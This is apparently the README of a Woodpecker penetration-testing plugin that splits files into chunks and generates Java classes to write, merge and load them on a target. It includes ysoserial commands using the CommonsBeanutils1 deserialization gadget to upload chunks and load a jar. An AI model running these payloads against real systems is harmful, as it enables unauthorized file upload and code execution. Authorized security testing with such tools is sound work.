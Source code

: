 # Woodpecker分块传输插件-FragmentTransmission
![img.png](img.png)
## 功能介绍
1. 一键生成将文件分片
2. 动态生成分片文件写入与合并执行的Class

仅提供文件分片与Class生成功能，如需结合反序列化漏洞可使用`ysoserial-for-woodpecker`
上传分片文件
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "upload_file:分块1-10.file"
```

合并分片文件
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "class_file:MergeByNameCode1.class"
```
加载Jar
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "class_file:FileloaderInvokeFIlename.class"
```
测试发现BCEL没办法加载动态生成的Class

如需封装成漏洞POC工具自行修改

## 说明
1.FileSplitPlugin文件分片
2.GetTempLoad读取tmp目录下的文件合并，加载class测试分块文件完整使用
3.GenerateBlockClassTmpPlugin动态生成分块与合并class加载执行，写分块文件到tmp中
4.与3功能一致，可指定写入分块的路径，用于已知路径写入，推荐使用3

在Windows下路径使用`/`,否则在javassist会报错
在MAC中生成测试发现，Mac中插件目录默认会生成一个`.DS_Store`文件会导致合并数据时，数据损坏


## 使用
FileSplitPlugin文件分片
![img_1.png](img_1.png)

GetTempLoad读取tmp目录下的文件合并，加载class测试分块文件完整使用

![img_3.png](img_3.png)

GenerateBlockClassTmpPlugin,生成Class文件代码将切片文件写入到临时文件夹中



GenerateBlockClassPathPlugin指定切片文件写入路径Class生成

![img_4.png](img_4.png)








